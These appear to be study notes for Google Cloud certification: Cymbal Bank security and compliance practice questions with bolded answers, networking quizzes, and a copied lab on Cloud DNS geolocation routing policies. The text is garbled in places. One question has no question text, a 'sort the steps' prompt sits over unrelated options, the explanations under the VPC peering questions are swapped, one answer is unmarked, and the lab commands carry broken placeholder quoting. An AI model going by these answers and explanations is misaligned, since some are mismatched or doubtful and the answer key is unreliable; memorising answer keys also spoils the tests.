- **Create a Dockerfile with a container definition and a Cloud Build configuration file. Use the Cloud Build configuration file to build and deploy the image from Dockerfile to a Google Container registry. In the configuration file, include the Google Container Registry path and the Google Kubernetes Engine cluster. Upload the configuration file to a Git repository. Create a trigger in Cloud Build to automate the deployment using the Git repository.**

- Build a foundation image. Store all artifacts and a Packer definition template in a Git repository. Use Container Registry to build the artifacts and Packer definition. Use Cloud Build to extract the built container and deploy it to a Google Kubernetes Engine (GKE) cluster. Add the required users and groups to the GKE project.

- Build an immutable image. Store all artifacts and a Packer definition template in a Git repository. Use Container Registry to build the artifacts and Packer definition. Use Cloud Build to extract the built container and deploy it to a Google Kubernetes Engine Cluster (GKE). Add the required users and groups to the GKE project.

3. Cymbal Bank runs a Node.js application on a Compute Engine instance. Cymbal Bank needs to share this base image with a ‘development’ Google Group. This base image should support secure boot for the Compute Engine instances deployed from this image. How would you automate the image creation?

- **Prepare a shell script. Add the command gcloud compute instances stop with the Node.js instance name. Set up certificates for secure boot. Add gcloud compute images create, and specify the Compute Engine instance’s persistent disk and zone and the certificate files. Add gcloud compute images add-iam-policy-binding and specify the ‘development’ group.**

- Prepare a shell script. Add the command gcloud compute instances start to the script to start the Node.js Compute Engine instance. Set up Measured Boot for secure boot. Add gcloud compute images create, and specify the persistent disk and zone of the Compute Engine instance.

- Start the Compute Engine instance. Set up certificates for secure boot. Prepare a cloudbuild.yaml configuration file. Specify the persistent disk location of the Compute Engine and the ‘development’ group. Use the command gcloud builds submit --tag, and specify the configuration file path and the certificates.

- Stop the Compute Engine instance. Set up Measured Boot for secure boot. Prepare a cloudbuild.yaml configuration file. Specify the persistent disk location of the Compute Engine instance and the ‘development’ group. Use the command gcloud builds submit --tag, and specify the configuration file path.

4. Cymbal Bank has suffered a remote botnet attack on Compute Engine instances in an isolated project. The affected project now requires investigation by an external agency. An external agency requests that you provide all admin and system events to analyze in their local forensics tool. You want to use the most cost-effective solution to enable the external analysis. What should you do?

- Use Cloud Monitoring and Cloud Logging. Filter Cloud Monitoring to view only system and admin logs. Expand the system and admin logs in Cloud Logging. Use Pub/Sub to export the findings from Cloud Logging to the external agency’s forensics tool or storage.

- Use Event Threat Detection. Trigger the IAM Anomalous Grant detector to detect all admins and users with admin or system permissions. Export these logs to the Security Command Center. Give the external agency access to the Security Command Center.

- **Use Cloud Audit Logs. Filter Admin Activity audit logs for only the affected project. Use a Pub/Sub topic to stream the logs from Cloud Audit Logs to the external agency’s forensics tool.**

- Use the Security Command Center. Select Cloud Logging as the source, and filter by category: Admin Activity and category: System Activity. View the Source property of the Finding Details section. Use Pub/Sub topics to export the findings to the external agency’s forensics tool.

5. Set an organization-level policy that  requires all Compute Engine VMs to be configured as Shielded VMs. Use  Measured Boot enabled with Virtual Trusted Platform Module (vTPM).  Validate integrity events in Cloud Monitoring and place alerts on late  boot validation events.

- Set an organization-level policy that requires all Compute Engine VMs to be configured as Shielded VMs. Use Secure Boot enabled with Unified Extensible Firmware Interface (UEFI). Validate integrity events in Cloud Monitoring and place alerts on launch attestation events.

- **Set an organization-level policy that requires all Compute Engine VMs to be configured as Shielded VMs. Use Measured Boot enabled with Virtual Trusted Platform Module (vTPM). Validate integrity events in Cloud Monitoring and place alerts on late boot validation events.**

- Set Cloud Logging measurement policies on the VMs. Use Cloud Logging to place alerts whenever actualMeasurements and policyMeasurements don’t match.

- Set project-level policies that require all Compute Engine VMs to be configured as Shielded VMs. Use Measured Boot enabled with Virtual Trusted Platform Module (vTPM). Validate integrity events in Cloud Monitoring and place alerts on late boot validation events.

6. Cymbal Bank has Docker applications deployed in Google Kubernetes Engine. The bank has no offline containers. This GKE cluster is exposed to the public internet and has recently recovered from an attack. Cymbal Bank suspects that someone in the organization changed the firewall rules and has tasked you to analyze and find all details related to the firewall for the cluster. You want the most cost-effective solution for this task. What should you do?

- **View the GKE logs in Cloud Logging. Use the log scoping tool to filter the Firewall Rules log. Create a dataset in BigQuery to accept the logs. Export the logs to BigQuery using the command gcloud logging sinks create. Query this dataset.**

- View the GKE logs in the local GKE cluster. Use the kubectl Sysdig Capture tool to filter the Firewall Rules log. Create a Pub/Sub topic. Export these logs to a Pub/Sub topic using the GKE cluster. Use Dataflow to read from Pub/Sub and query the stream.

- View the GKE logs in the local GKE cluster. Use Docker-explorer to explore the Docker file system. Filter and export the Firewall logs to Cloud Logging. Create a dataset in BigQuery to accept the logs. Use the command gcloud logging sinks create to export the logs to a BigQuery dataset. Query this dataset.

- View the GKE logs in Cloud Logging. Use the log scoping tool to filter the Firewall Rules log. Create a Pub/Sub topic. Export the logs to a Pub/Sub topic using the command gcloud logging sinks create. Use Dataflow to read from Pub/Sub and query the stream.

7. Cymbal Bank has received Docker source files from its third-party developers in an Artifact Registry repository. These Docker files will be part of a CI/CD pipeline to update Cymbal Bank’s personal loan offering. The bank wants to prevent the possibility of remote users arbitrarily using the Docker files to run any code. You have been tasked with using Container Analysis’ On-Demand scanning to scan the images for a one-time update. What should you do?

- **Prepare a cloudbuild.yaml file. In this file, add four steps in order—build, scan, severity check, and push—specifying the location of Artifact Registry repository. Specify severity level as CRITICAL. Start the build with the command gcloud builds submit.**

- Prepare a cloudbuild.yaml file. In this file, add four steps in order—scan, severity check, build, and—push specifying the location of the Artifact Registry repository. Specify severity level as HIGH. Start the build with the command gcloud builds submit.

- Prepare a cloudbuild.yaml file. In this file, add four steps in order—scan, build, severity check, and push—specifying the location of the Artifact Registry repository. Specify severity level as HIGH. Start the build with the command gcloud builds submit.

- Prepare a cloudbuild.yaml file. In this file, add four steps in order—build, severity check, scan, and push—specifying the location of the Artifact Registry repository. Specify severity level as CRITICAL. Start the build with the command gcloud builds submit.

8. Cymbal Bank experienced a recent security issue. A rogue employee with admin permissions for Compute Engine assigned existing Compute Engine users some arbitrary permissions. You are tasked with finding all these arbitrary permissions. What should you do to find these permissions most efficiently?

- Use Event Threat Detection and trigger the IAM Anomalous Grant detector. Publish results to Cloud Logging. In the Security Command Center, select Cloud Logging as the source, filter by category: anomalies, and sort to find the attack time window. Click on Persistence: IAM Anomalous Grant to display Finding Details. View the Source property of the Finding Details section.

- Use Event Threat Detection and configure Continuous Exports to filter and write only Firewall logs to the Security Command Center. In the Security Command Center, select Event Threat Detection as the source, filter by category: anomalies, and sort to find the attack time window. Click on Evasion: IAM Anomalous Grant to display Finding Details. View the Source property of the Finding Details section.

- **Use Event Threat Detection and trigger the IAM Anomalous grants detector. Publish results to the Security Command Center. In the Security Command Center, select Event Threat Detection as the source, filter by category: iam, and sort to find the attack time window. Click on Persistence: IAM Anomalous Grant to display Finding Details. View the Source property of the Finding Details section.**

- Use Event Threat Detection and configure Continuous Exports to filter and write only Firewall logs to the Security Command Center. In the Security Command Center, select Event Threat Detection as the source, filter by evasion: Iam, and sort to find the attack time window. Click on Persistence: IAM Anomalous Grant to display Finding Details. View the Source property of the Finding Details section.

9. Cymbal Bank wants to use Cloud Storage and BigQuery to store safe deposit usage data. Cymbal Bank needs a cost-effective approach to auditing only Cloud Storage and BigQuery data access activities. How would you use Cloud Audit Logs to enable this analysis?

- Enable Data Access Logs for ADMIN_READ, DATA_READ, and DATA_WRITE at the service level for BigQuery and Cloud Storage.

- Enable Data Access Logs for ADMIN_READ, DATA_READ, and DATA_WRITE at the organization level.

- Enable Data Access Logs for ADMIN_READ, DATA_READ, and DATA_WRITE for BigQuery. All Data Access Logs are enabled for Cloud Storage by default.

- **Enable Data Access Logs for ADMIN_READ, DATA_READ, and DATA_WRITE for Cloud Storage. All Data Access Logs are enabled for BigQuery by default.**

10. Cymbal Bank uses Compute Engine instances for its APIs, and recently discovered bitcoin mining activities on some instances. The bank wants to detect all future mining attempts and notify the security team. The security team can view the Security Command Center and Cloud Audit Logs. How should you configure the detection and notification?

- Enable the VM Manager tools suite in the Security Command Center. Perform a scan of Compute Engine instances. Publish results to Cloud Audit Logging. Create an alert in Cloud Monitoring to send notifications of suspect activities.

- Enable the Web Security Scanner in the Security Command Center. Perform a scan of Compute Engine instances. Publish results to Cloud Audit Logging. Create an alert in Cloud Monitoring to send notifications for suspect activities.

- Use Event Threat Detection’s threat detectors. Export findings from ‘Suspicious account activity’ and ‘Anomalous IAM behavior’ detectors and publish them to a Pub/Sub topic. Create a Cloud Run function to send notifications of suspect activities. Use Pub/Sub notifications to invoke the Cloud Run function.

- **Enable Anomaly Detection in the Security Command Center. Create and configure a Pub/Sub topic and an email service. Create a Cloud Run function to send email notifications for suspect activities. Export findings to a Pub/Sub topic, and use them to invoke the Cloud Run function.**

### Knowledge Check

1. Which feature of Google Cloud will Cymbal Bank use to prevent unauthorized container images from being deployed into production environments?

- Cloud Build
- **Binary Authorization**
- Cloud Monitoring
- Audit logs

Correct. Binary Authorization provides a system for applying  attestations to container images to prevent unauthorized container  images from being deployed into infrastructure.

2. How will Cymbal Bank be able to determine who performed a particular administrative action and when?
- Cloud Monitoring
- **Audit logs**
- VPC service controls
- VPC flow logs

Correct. Audit logs include a capture of all administrative actions,  including the identity making the request and when it occurred.


## Supporting Compliance Requirements

### Diagnostic questions

1. Cymbal Bank’s Insurance Analyst needs to collect and store anonymous protected health information of patients from various hospitals. The information is currently stored in Cloud Storage, where each hospital has a folder that contains its own bucket. You have been tasked with collecting and storing the healthcare data from these buckets into Cymbal Bank’s Cloud Storage bucket while maintaining HIPAA compliance. What should you do?

- **Use the Cloud Healthcare API to read the data from the hospital buckets and use de-identification to redact the sensitive information. Use Dataflow to ingest the Cloud Healthcare API feed and write data in a new Project that contains the Cloud Storage bucket. Give the Insurance Analyst the ‘Editor’ role on this Project.**

- Create a new folder. Create a new Cloud Storage bucket in this folder. Give the Insurance Analyst the ‘Editor’ role on the new folder. Collect all hospital data in this bucket. Use the Google Cloud Healthcare Data Protection Toolkit to monitor this bucket.

- Create a new Project. Use the Google Cloud Healthcare Data Protection Toolkit to set up a collection bucket, monitoring alerts, audit log sinks, and Forseti monitoring resources. Use Dataflow to read the data from source buckets and write to the new collection buckets. Give the Insurance Analyst the ‘Editor’ role on the collection bucket.

- Create a new Project. Create a new Cloud Storage bucket in this Project with customer-supplied encryption keys (CSEK). Give the Insurance Analyst the ‘Reader’ role on the Project that contains the Cloud Storage bucket. Use the DLP API to find and mask personally identifiable information (PII) data to comply with HIPAA.

2. You are a cloud engineer at Cymbal Bank. You need to share the auditing and compliance standards with your CTO that cover controls over financial reporting and both public and private controls over security, availability, and confidentiality. Which compliance standard covers this?

- **SOX**

- FIPs 140-2

- GDPR

- PCI-DSS

3. Cymbal Bank plans to launch a new public website where customers can pay their equated monthly installments (EMI) using credit cards. You need to build a secure payment processing solution using Google Cloud which should follow the PCI-DSS isolation requirements. How would you architect a secure payment processing environment with Google Cloud services to follow PCI-DSS? (Select the two correct choices)

- Deploy an Ubuntu Compute Engine instance. Install the libraries needed for payment solutions and encryption/decryption. Deploy using Terraform.

- Create a new Google Cloud project with restricted access (separate from production environment) for the payment processing solution. Create a new Compute Engine instance and configure firewall rules, a VPN tunnel, and an internal load balancer.

- Create a new Google Cloud project with restricted access (separate from production environment) for the payment processing solution. Configure firewall rules, a VPN tunnel, and a proxy Network Load Balancer for a new App Engine flexible environment.

- **Deploy a Linux base image from preconfigured operating system images. Install only the libraries you need. Deploy using Terraform.**

- **Create a new Google Cloud project with restricted access (separate from production environment) for the payment processing solution. Configure firewall rules, a VPN tunnel, and an Application Load Balancer for a new Compute Engine instance.**

4. You are designing a web application for Cymbal Bank so that customers who have credit card issues can contact dedicated support agents. Customers may enter their complete credit card number when chatting with or emailing support agents. You want to ensure compliance with PCI-DSS and prevent support agents from viewing this information in the most cost-effective way. What should you do?

- Implement Cloud Data Loss Prevention using its REST API.

- Detect sensitive information with Cloud Natural Language API.

- Use customer-managed encryption keys (CMEK) and Cloud Key Management Service (KMS) to detect and encrypt sensitive information.

- Use customer-supplied encryption keys (CSEK) and Cloud Key Management Service (KMS) to detect and encrypt sensitive information.

5. Cymbal Bank’s lending department stores sensitive information, such as your customers’ credit history, address and phone number, in parquet files. You need to upload this personally identifiable information (PII) to Cloud Storage so that it’s secure and compliant with ISO 27018. How should you protect this sensitive information using Cymbal Bank’s encryption keys and using the least amount of computational resources?

- Generate a customer-managed encryption key (CMEK) using Cloud KMS. Decode it as a base-64 string. Upload the blob to the bucket using this key.

- Generate an RSA key as a 32-byte bytestring. Decode it as a base-64 string. Upload the blob to the bucket using this key.

- Generate a customer-managed encryption key (CMEK) using RSA or AES256 encryption. Decode it as a base-64 string. Upload the blob to the bucket using this key.

- **Generate an AES-256 key as a 32-byte bytestring. Decode it as a base-64 string. Upload the blob to the bucket using this key.**

### Knowledge Check

1. Cymbal Bank has a compliance requirement to have control over key lifecycle and rotation periods. Which Google Cloud feature can they leverage to satisfy that requirement?
- **CMEK with Cloud KMS**
- VPC service controls
- Audit logs
- PCI-DSS compliance

Correct. CMEK with Cloud KMS provides the ability to set key rotation  and lifecycle configuration and select which keys are used for which  data.

2. Cymbal Bank has compliance requirements to ensure certain data is stored, processed, and never transferred or used outside of Europe. Which Google Cloud feature can help them achieve this?
- Audit logs
- **VPC service controls**
- Organization policy constraints
- Sensitive Data Protection

Correct! VPC service controls can be used to restrict access to data to  specific VPCs with subnets in specific regions, and can thereby  facilitate data residency and location-based access requirements.


# 03 Networking in Google Cloud: Fundamentals


## VPC Networking Fundamentals

### Quiz

1. You want to lower cloud networking cost and have no problem leveraging the public internet for cross-region traffic. Which network service tier is best for you?

-  Pro version 
-  Premium tier
-  **Standard tier**
-  Prime tier 
Correct! Most cost-effective, suitable for cost-conscious users willing to use public internet routing.

2. You want to improve network performance. You are not comfortable using the public internet to route traffic. Which service tier is the best fit?
-  Pro version 
-  **Premium tier**
-  Standard tier
-  Prime tier
Correct! Premium Tier improves performance and leverages the Google network
3. You are designing a virtual machine in the cloud to act as a network gateway between an external public network and a private internal network. To ensure strong security and traffic separation, what technology can you implement?
- **Multiple Network Interface Cards (NICs)**
- Cloud VPN
- VLAN tagging within a single NIC
- Premium Tier IPs
Correct! Multiple NICs attached to separate VPC networks achieve the strongest traffic isolation and control for the gateway scenario.

## Sharing VPC Networks

### Quiz

1. Which of the following statements about VPC Network Peering is correct?
- **Transitive peering is not supported.**
- Peered VPC networks do not remain administratively separate.
- Subnet IP ranges can overlap across peered VPC networks.
- Both sides of a peering association are set up in one single step.

This is correct. Shared VPC allows multiple projects to share a common  VPC network, with a centralized host project managing the network  resources.

2. How does VPC Peering exchange routing information between two peered VPCs?
- It relies on the default route table to forward traffic between the VPCs.
- **It automatically discovers and propagates routes through the Google Cloud Router.**
- It uses Border Gateway Protocol (BGP) to dynamically exchange routes.
- It requires manual configuration of static routes in each VPC's route table.

Correct. VPC Peering automatically propagates custom dynamic routes  through the Google Cloud Router, allowing each VPC to learn the routes  of the other peered VPC.

3. Which of the following approaches to multi-project networking uses a centralized network administration model?
- Cloud VPN
- Cloud VPN and Shared VPC
- VPC Network Peering
- **Shared VPC**

This statement is correct. VPC Network Peering establishes a direct  connection between two VPC networks, but it does not extend to other VPC networks they might be peered with.


## Network Monitoring and Logging

### Quiz

1. Sort the following steps for provisioning Shared VPC in Google Cloud:
- **Uptime checks**
- Dashboards
- Ops Agent
- **Alerting policies**

Correct! Alerting policies can email you when your web server cannot be reached.

Correct! Uptime checks test the availability of your web server and allow you to specify alerting policies.

2. In regards to VPC Flow Logs, which of the following statements is correct?
- **Logs can be used for network monitoring, forensics, real-time security analysis, and expense optimization.**
- Logs cannot be analyzed in BigQuery or visualized in Looker Studio.
- Log updates are provided every 5 minutes.
- There is a delay and performance penalty in routing logged IP packets.

Correct! VPC Flow Logs can be used for network monitoring, forensics, real-time security analysis, and expense optimization.


# 04 Networking in Google Cloud: Routing and Addressing

## Network Routing and Addressing in Google Cloud

### Lab - Cloud DNS - Traffic Steering using Geolocation Policy

#### Overview

Cloud DNS routing policies enable users to configure DNS based traffic steering. A user can either create a Weighted Round Robin (WRR) routing policy or a Geolocation (GEO) routing policy. You can configure routing policies by creating special ResourceRecordSets with special routing policy values.

Use WRR to specify different weights per ResourceRecordSet for the resolution of domain names. Cloud DNS routing policies help ensure that traffic is distributed across multiple IP addresses by resolving DNS requests according to the configured weights.

In this lab, you will configure and test the Geolocation routing policy. Use GEO to specify source geolocations and to provide DNS answers corresponding to those geographies. The geolocation routing policy applies the nearest match for the source location when the traffic source location doesn't match any policy items exactly.

#### What you learn

You will learn how to:

1. Launch client VMs, one in each region
2. Launch server VMs, one in each region except asia-south1
3. Create a private zone, for `example.com`
4. Create a Geolocation routing policy using gcloud commands
5. Test the configuration

#### Architecture

Use the default VPC network to create all the virtual machines (VM) and launch client VMs in 3 Google Cloud locations: one in the United States, another in Europe, and another in Asia. To demonstrate the Geolocation routing policy behavior, you will create the server VMs only in two of those location - in the United States and in Europe. The archirtecture will look similar to what is shown in the graphic. (Note that the actual regions and zones within the United States and Europe may differ from those shown in the graphic.)


You will use Cloud DNS routing policies and create `ResourceRecordSets` for geo.example.com and configure the Geolocation policy to help ensure that a client request is routed to a server in the client's closest region.


#### Setup and requirements

#### Before you click the Start Lab button

**Note: Read these instructions.**


Labs are timed and you cannot pause them. The timer, which starts when you click **Start Lab**, shows how long Google Cloud resources will be made available to you.

This Qwiklabs hands-on lab lets you do the lab activities yourself in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials that you use to sign in and access Google Cloud for the duration of the lab.

#### What you need

To complete this lab, you need:

- Access to a standard internet browser (Chrome browser recommended).
- Time to complete the lab.

**Note:** If you already have your own personal Google Cloud account or project, do not use it for this lab.

**Note:** If you are using a Pixelbook, open an Incognito window to run this lab.

#### How to start your lab and sign in to the Console

1. Click the **Start Lab** button. If you need to pay for the lab, a pop-up opens for you to select your payment method. On the left is a panel populated with the temporary credentials that you must use for this lab.

   

2. Copy the username, and then click **Open Google Console**. The lab spins up resources, and then opens another tab that shows the **Choose an account** page.

   **Note:** Open the tabs in separate windows, side-by-side.

3. On the Choose an account page, click **Use Another Account**. The Sign in page opens.

   

4. Paste the username that you copied from the Connection Details panel. Then copy and paste the password.

**Note:** You must use the credentials from the Connection Details panel. Do not use your Google Cloud Skills Boost credentials. If you have your own Google Cloud account, do not use it for this lab (avoids incurring charges).

1. Click through the subsequent pages:

- Accept the terms and conditions.
- Do not add recovery options or two-factor authentication (because this is a temporary account).
- Do not sign up for free trials.

After a few moments, the Cloud console opens in this tab.

**Note:** You can view the menu with a list of Google Cloud Products and Services by clicking the **Navigation menu** at the top-left.

#### Activate Google Cloud Shell

Google Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud.

Google Cloud Shell provides command-line access to your Google Cloud resources.

1. In Cloud console, on the top right toolbar, click the Open Cloud Shell button.

   

2. Click **Continue**.

It takes a few moments to provision and connect to the environment. When you are connected, you are already authenticated, and the project is set to your *PROJECT_ID*. For example:


**gcloud** is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.

- You can list the active account name with this command:

```
gcloud auth list
```

Copied!

**Output:**

```
Credentialed accounts:
 - @.com (active)
```

**Example output:**

```
Credentialed accounts:
 - google1623327_student@qwiklabs.net
```

- You can list the project ID with this command:

```
gcloud config list project
```

Copied!

**Output:**

```
[core]
project = 
```

**Example output:**

```
[core]
project = qwiklabs-gcp-44776a13dea667a6
```

**Note:** Full documentation of **gcloud** is available in the [gcloud CLI overview guide ](https://cloud.google.com/sdk/gcloud).

#### Task 1. Enable APIs

Ensure that the Compute and the Cloud DNS APIs are enabled. In this section, you will enable the APIs manually, using `gcloud` commands.

#### Enable Compute Engine API

- Run the `gcloud services enable` command to enable the Compute Engine API:

```
gcloud services enable compute.googleapis.com
```

Copied!

This command can take a few minutes to complete.

#### Enable Cloud DNS API

- Run the `gcloud services enable` command to enable the Cloud DNS API:

```
gcloud services enable dns.googleapis.com
```

Copied!

This command can take a few minutes to complete.

#### Verify that the APIs are enabled

- Run the `gcloud services list` command to list all the enabled APIs. We should see `compute.googleapis.com` and `dns.googleapis.com` in the listed output.

```
gcloud services list | grep -E 'compute|dns'
```

Copied!

**Output:**

```
NAME: compute.googleapis.com
NAME: dns.googleapis.com
```

#### Task 2. Configure the firewall

Before you create the client VMs and the web servers, you need to create two firewall rules.

**Note:** The `firewall-rules create` command can take a few minutes to complete. Please wait for the "Creating firewall...done" message before proceeding to the next step.

1. To be able to SSH into the client VMs, run the following to create a firewall rule to allow SSH traffic from Identity Aware Proxies (IAP):

```
gcloud compute firewall-rules create fw-default-iapproxy \
--direction=INGRESS \
--priority=1000 \
--network=default \
--action=ALLOW \
--rules=tcp:22,icmp \
--source-ranges=35.235.240.0/20
```

Copied!

**Output:**

```
Creating firewall...working..Created [https://www.googleapis.com/compute/v1/projects/qwiklabs-gcp-01-c5d669dffb06/global/firewalls/fw-default-iapproxy].
Creating firewall...done.
NAME: fw-default-iapproxy
NETWORK: default
DIRECTION: INGRESS
PRIORITY: 1000
ALLOW: tcp:22,icmp
DENY:
DISABLED: False
```

1. To allow HTTP traffic on the web servers, each web server will have a "http-server" tag associated with it. You will use this tag to apply the firewall rule only to your web servers:

```
gcloud compute firewall-rules create allow-http-traffic --direction=INGRESS --priority=1000 --network=default --action=ALLOW --rules=tcp:80 --source-ranges=0.0.0.0/0 --target-tags=http-server
```

Copied!

**Output:**

```
Creating firewall...working..Created [https://www.googleapis.com/compute/v1/projects/routing-policy-lab/global/firewalls/allow-http-traffic].
Creating firewall...done.
NAME: allow-http-traffic
NETWORK: default
DIRECTION: INGRESS
PRIORITY: 1000
ALLOW: tcp:80
DENY:
DISABLED: False
```

Click *Check my progress* to verify the objective.

Configure the Firewall


#### Task 3. Launch client VMs

Now that the APIs are enabled, and the firewall rules are in place, the next step is to set up the environment. In this section, you will create 3 client VMs, one in each region.

#### Launch a client in the United States

- Run the `gcloud compute instances create` command to create the client VMs:

```
gcloud compute instances create us-client-vm --machine-type=e2-micro --zone "Zone 1"
```

Copied!

This command can take a few minutes to complete. Please wait for a "Created" message before moving to the next step. Note that you may see a different zone in gcloud than in the sample output shown below.

**Output:**

```
Created [https://www.googleapis.com/compute/v1/projects/routing-policy-lab/zones/us-east1-b/instances/us-client-vm].
NAME: us-client-vm
ZONE: "Zone 1"
MACHINE_TYPE: e2-micro
PREEMPTIBLE:
INTERNAL_IP: 10.142.0.2
EXTERNAL_IP: 34.138.90.216
STATUS: RUNNING
```

#### Launch a client in Europe

- Run the following to create the client VMs:

```
gcloud compute instances create europe-client-vm --machine-type=e2-micro --zone ""Zone 2""
```

Copied!

Note that you may see a different zone in gcloud than in the sample output shown below.

**Output:**

```
Created [https://www.googleapis.com/compute/v1/projects/routing-policy-lab/zones/europe-west2-a/instances/europe-client-vm].
NAME: europe-client-vm
ZONE: "Zone 2"
MACHINE_TYPE: e2-micro
PREEMPTIBLE:
INTERNAL_IP: 10.154.0.2
EXTERNAL_IP: 35.242.164.177
STATUS: RUNNING
```

#### Launch a client in Asia

1. Run the following to create the client VMs:

```
gcloud compute instances create asia-client-vm --machine-type=e2-micro --zone ""Zone 3""
```

Copied!

Note that you may see a different zone in gcloud than in the sample output shown below.

**Output:**

```
Created [https://www.googleapis.com/compute/v1/projects/routing-policy-lab/zones/asia-south1-a/instances/asia-client-vm].
NAME: asia-client-vm
ZONE: "Zone 3"
MACHINE_TYPE: e2-micro
PREEMPTIBLE:
INTERNAL_IP: 10.160.0.2
EXTERNAL_IP: 34.93.179.212
STATUS: RUNNING
```

Click *Check my progress* to verify the objective.

Launch client VMs


#### Task 4. Launch Server VMs

Now that the client VM's are up and running, the next step is to create the server VMs. You will use a startup script to configure and set up the web servers. As mentioned earlier, you will create the server VMs only in 2 regions: us-east1 and europe-west2.

- Run the `gcloud compute instances create` command to create the server VMs. The compute instance create command can take a few minutes to complete. Please wait for a "Created" message before moving to the next step.

#### Launch server in the United States

- Run the following command:

```
gcloud compute instances create us-web-vm \
--machine-type=e2-micro \
--zone="Zone 1" \
--network=default \
--subnet=default \
--tags=http-server \
--metadata=startup-script='#! /bin/bash
 apt-get update
 apt-get install apache2 -y
 echo "Page served from: "Region 1"" | \
 tee /var/www/html/index.html
 systemctl restart apache2'
```

Copied!

Note that you may see a different zone in gcloud than in the sample output shown below.

**Output:**

```
Created [https://www.googleapis.com/compute/v1/projects/routing-policy-lab/zones/us-east1-b/instances/us-web-vm].
NAME: us-web-vm
ZONE: "Zone 1"
MACHINE_TYPE: e2-micro
PREEMPTIBLE:
INTERNAL_IP: 10.142.0.3
EXTERNAL_IP: 34.73.110.151
STATUS: RUNNING
```

#### Launch server in Europe

- Run the following to command:

```
gcloud compute instances create europe-web-vm \
--machine-type=e2-micro \
--zone="Zone 2" \
--network=default \
--subnet=default \
--tags=http-server \
--metadata=startup-script='#! /bin/bash
 apt-get update
 apt-get install apache2 -y
 echo "Page served from: "Zone 2"" | \
 tee /var/www/html/index.html
 systemctl restart apache2'
```

Copied!

Note that you may see a different zone in gcloud than in the sample output shown below.

**Output:**

```
Created [https://www.googleapis.com/compute/v1/projects/routing-policy-lab/zones/europe-west2-a/instances/europe-web-vm].
NAME: europe-web-vm
ZONE: "Zone 2"
MACHINE_TYPE: e2-micro
PREEMPTIBLE:
INTERNAL_IP: 10.154.0.3
EXTERNAL_IP: 35.234.156.62
STATUS: RUNNING
```

Click *Check my progress* to verify the objective.

Launch Server VMs


#### Task 5. Setting up environment variables

Before you configure Cloud DNS, note the Internal IP addresses of the web servers. You need these IPs to create the routing policy. In this section, you will use the `gcloud compute instances describe` command to save the internal IP addresses as environment variables.

1. Command to save IP address for the VM in the United States

```
export US_WEB_IP=$(gcloud compute instances describe us-web-vm --zone="Zone 1" --format="value(networkInterfaces.networkIP)")
```

Copied!

1. Command to save the IP address for the VM in Europe:

```
export EUROPE_WEB_IP=$(gcloud compute instances describe europe-web-vm --zone="Zone 2" --format="value(networkInterfaces.networkIP)")
```

Copied!

#### Task 6. Create the private zone

Now that your client and server VMs are running, it's time to configure the DNS settings. Before creating the A records for the web servers, you need to create the Cloud DNS Private Zone.

For this lab, use the `example.com` domain name for the Cloud DNS zone.

- Use the `gcloud dns managed-zones create` command to create the zone:

```
gcloud dns managed-zones create example --description=test --dns-name=example.com --networks=default --visibility=private
```

Copied!

**Output:**

```
Created [https://dns.googleapis.com/dns/v1/projects/routing-policy-lab/managedZones/example].
```

#### Task 7. Create Cloud DNS Routing Policy

In this section, configure the Cloud DNS Geolocation Routing Policy. You will create a record set in the `example.com` zone that you created in the previous section.

##### Create

- Use the `gcloud dns record-sets create` command to create the geo.example.com recordset:

```
gcloud dns record-sets create geo.example.com \
--ttl=5 --type=A --zone=example \
--routing-policy-type=GEO \
--routing-policy-data=""Region 1"=$US_WEB_IP;"Region 2"=$EUROPE_WEB_IP"
```

Copied!

You are creating an A record with a Time to Live (TTL) of 5 seconds. The policy type is GEO, and the `routing_policy_data` field accepts a semicolon-delimited list of the format `${region}:${rrdata},${rrdata}`.

**Output:**

```
NAME: geo.example.com.
TYPE: A
TTL: 5
DATA: "filled at lab start": 10.142.0.3; "Region 2": 10.154.0.3
```

##### Verify

- Use the `dns record-sets list` command to verify that the `geo.example.com`DNS record is configured as expected:

```
gcloud dns record-sets list --zone=example
```

Copied!

The output shows that an A record with a TTL of 5 is created for `geo.example.com`, and the data matches our server set up in each region.

Note that in gcloud, the DATA value under geo.example.com may include United States and Europe regions that differ from the sample output below.

**Output:**

```
NAME: example.com.
TYPE: NS
TTL: 21600
DATA: ns-gcp-private.googledomains.com.

NAME: example.com.
TYPE: SOA
TTL: 21600
DATA: ns-gcp-private.googledomains.com. cloud-dns-hostmaster.google.com. 1 21600 3600 259200 300

NAME: geo.example.com.
TYPE: A
TTL: 5
DATA: "REGION": 10.142.0.3; "Region 2": 10.154.0.3
```

Click *Check my progress* to verify the objective.

Create the Private Zone


#### Task 8. Testing

It's time to test the configuration. In this section, you will SSH into all the client VMs. Since all of the web server VMs are behind the `geo.example.com` domain, you will use `CURL` command to access this endpoint.

Since you are using a Geolocation policy, the expected result is that:

- The client in the US should always get a response from the `<Zone 1` region.
- The client in Europe should always get a response from the `Zone 2` region.

##### Testing from the client VM in Europe

1. Use the `gcloud compute ssh` command to log into the client VM:

```
gcloud compute ssh europe-client-vm --zone "Zone 2" --tunnel-through-iap
```

Copied!

1. Follow prompts to SSH into the machine. When asked to enter the passphrase, leave the field blank and press the Enter key twice.

Once complete, the command line should change to "`user_name@europe-client-vm:~$`"

**Output:**

```
Warning: Permanently added 'compute.4621780534809863836' (ECDSA) to the list of known hosts.
Linux europe-client-vm 4.19.0-18-cloud-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
user_name@europe-client-vm:~$
```

##### Use `curl` to access the web server

1. Now that you are in the client VM, use the `CURL` command to access the `geo.example.com` endpoint. The loop is configured to run the command ten times with a sleep timer of 6 seconds:

```
for i in {1..10}; do echo $i; curl geo.example.com; sleep 6; done
```

Copied!

Since the TTL on the DNS record is set to 5 seconds, a sleep timer of 6 seconds has been added. The sleep timer will make sure that you get an uncached DNS response for each cURL request. This command will take approximately one minute to complete.

The expected output is "Page served from: `Zone 2`

```
1
Page served from: "Zone 2"
2
Page served from: "Zone 2"
3
Page served from: "Zone 2"
4
Page served from: "Zone 2"
5
Page served from: "Zone 2"
6
Page served from: "Zone 2"
7
Page served from: "Zone 2"
8
Page served from: "Zone 2"
9
Page served from: "Zone 2"
10
Page served from: "Zone 2"
```

1. Run this test multiple times and analyze the output to see which server is responding to the request. The client should always receive a response from a server in the client's region.

